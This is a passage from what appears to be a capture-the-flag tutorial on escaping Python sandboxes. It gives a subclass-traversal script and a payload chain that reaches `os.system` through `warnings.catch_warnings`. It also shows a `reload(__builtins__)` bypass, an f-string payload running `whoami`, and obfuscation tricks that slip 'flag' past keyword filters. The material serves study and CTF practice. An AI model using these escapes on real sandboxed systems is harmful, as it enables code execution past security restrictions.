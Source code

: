 ```python
                                    print(i, j, sub, f, target)
                except Exception as e:
                    pass
    except Exception as e:
        pass
print('----------4-----------')
# The fourth type of traversal: such as:().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']("os").system("ls")
# <class 'warnings.catch_warnings'> class is very special. _module=sys.modules['warnings'] is defined internally. Then the warnings module contains __builtins__, which is not universal, and is essentially similar to the first method.
for i, sub in enumerate(subclasses):
    try:
        more = sub()._module.__builtins__
        for f in all_targets:
            if f in more:
                print(i, f)
    except Exception as e:
        pass
```

# Bypass method
## reload
Even if the hazard modules are deleted using del, you can still use the `reload` function to reload these hazard modules.

```python
del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']
del __builtins__.__dict__['execfile']
del __builtins__.__dict__['input']

reload(__builtins__)
import os
dit(os)
```

## f modifier
A new string type modifier was introduced in `PEP 498`: `f` or `F`. A string modified with `f` will be able to execute code. This method is only available in `python3.6.0+`. Simply put, it can be understood as a `exec()` outer layer of a string.

```python
f'{__import__("os").system("whoami")}'
```

## Quotes exist
```text
'f''lag'
'f'+'lag'
'galf'[::-1]
'%clag'%(102)
chr(102)+'lag'
\146\154\141\147
\x66\x6c\x61\x67
'flab'.replace('b','g')
a='fl';b='ag';f'{a}{b}'
Python2 can also obtain any characters through hex(1718378855)[2:].decode('hex'), but in python3 the decoding of hex is moved to codecs.encode()
```
